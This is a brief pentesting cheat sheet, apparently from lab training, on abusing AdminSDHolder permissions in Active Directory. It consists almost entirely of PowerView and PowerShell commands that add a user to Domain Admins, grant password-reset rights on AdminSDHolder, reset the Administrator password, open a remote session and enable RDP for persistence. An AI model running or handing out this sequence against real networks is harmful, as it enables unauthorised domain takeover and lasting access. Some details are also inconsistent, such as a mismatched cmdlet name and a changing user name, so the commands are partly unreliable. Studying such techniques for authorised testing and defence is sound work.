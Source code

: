 # AdminSDHolder - Abusing Permission

Abusing if we were able to add ourself to Domain Admin ACL

```bash
# Check access before to see that you do not have access to DA
Get-DomainGroupMember -SamAccountName "Domain Admins" -Recurse

# Abusing FullControl using PowerView:
import-module .\powerview.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members student5 -Verbose

# Check access to see that now you do have access to DA
Get-DomainGroups -SamAccountName "Domain Admins" -Recurse


# Password Reset for any account
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=pentesting,DC=local' -PrincipalIdentity student529 -Rights ResetPassword -Verbose

# Abusing ResetPassword using PowerView:
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity Administrator -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
# Enter Session with new password
Enter-PSSession -Computername ad -credential pentesting\Administrator


# Extra
# Enable Remote Desktop
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
# Activate the firewall rule
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
# Enable authentication via RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1
```


